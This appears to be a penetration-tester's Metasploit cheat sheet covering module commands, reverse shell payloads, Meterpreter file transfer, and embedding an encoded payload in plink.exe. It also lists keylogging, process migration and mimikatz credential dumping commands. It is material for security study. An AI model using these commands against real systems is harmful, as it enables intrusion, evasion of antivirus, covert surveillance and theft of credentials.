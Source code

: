 To interact with a module
- `info` request more info about the module
- `show options` most modules require options
- Use `set` and `unset` to configure the options
- Use `setg` and `unsetg` to configure global options
- `show payloads` list all payloads that are compatible with the current exploit module
- `check` check if the target is vulnerable
- `run` or `exploit` to run the exploit
  - `-j` use as background job
  - `jobs` list background jobs
  - `kill` kill job


### Exploit Modules

### Staged vs Non-Staged Payloads

- `windows/shell_reverse_tcp` - Connect back to attacker and spawn a command shell
- `windows/shell/reverse_tcp` - Connect back to attacker, Spawn cmd shell (staged)
  - Useful, for example, if the vulnerability you need to exploit doesn't have enough buffer space to hold a full payload

### Meterpreter

- `upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\tidus`
- `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`
- `shell` get the shell

### Other notes

- `generate -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe` embedding the payload in plink.exe from within msfconsole
- Use the framework `multi/handler` to catch standard reverse shells
  - Works for all single and multi-stage payloads
  - Specify the incoming payload type

### Post-Exploitation

```
screenshot                take a screenshot of the compromised host desktop
keyscan_start             start the keystroke sniffer
keyscan_dump              dump captured keystrokes
keyscan_stop              stop the keystroke sniffer
```

**Migrate your meterpreter process**
- `ps` view all running processes and then pick one
- `migrate <PID>` migrate the process to a target PID

**Use mimikatz from meterpreter**
- `load kiwi` run the extension kiwi
- `getsystem` acquire SYSTEM privileges
- `creds_msv` dump the system credentials
